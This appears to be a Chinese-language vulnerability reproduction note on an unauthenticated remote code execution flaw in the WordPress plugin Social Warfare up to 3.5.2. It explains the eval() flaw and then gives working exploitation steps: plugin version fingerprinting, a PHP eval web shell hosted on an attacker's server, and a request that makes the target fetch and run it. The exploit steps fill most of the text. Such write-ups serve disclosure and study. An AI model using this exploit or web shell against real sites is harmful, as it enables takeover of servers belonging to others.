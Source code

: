 WordPress Plugin - Social Warfare\<=3.5.2 RCE
=============================================

一、漏洞简介
------------

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在\<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP\_Database\_Migration.php文件中有一处eval()函数，该函数将file\_get\_contents()读取的文件内容当做PHP代码执行导致RCE。

![](./resource/WordPressPlugin-SocialWarfare<=3.5.2RCE/media/rId25.png)

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

    http://0-sec.org/wp-content/plugins/social-warfare/readme.txt

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![](./resource/WordPressPlugin-SocialWarfare<=3.5.2RCE/media/rId27.png)

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

    <pre>eval($_REQUEST['wpaa'])</pre>

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

    http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo();

image
